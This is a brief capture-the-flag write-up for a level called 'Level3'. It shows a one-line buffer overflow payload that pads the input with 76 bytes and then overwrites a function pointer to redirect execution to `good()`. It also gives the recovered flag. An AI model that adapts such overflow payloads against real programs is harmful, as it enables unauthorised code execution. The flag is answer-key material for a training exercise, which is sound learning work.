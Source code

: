 #Level3:

Overwriting content of function pointer to point to `good()`.
```
./level03 `python -c "print 'A'*76 + '\x74\x84\x04\x08'"\`
```

Flag: `nSwmULj2LpDnRGU2`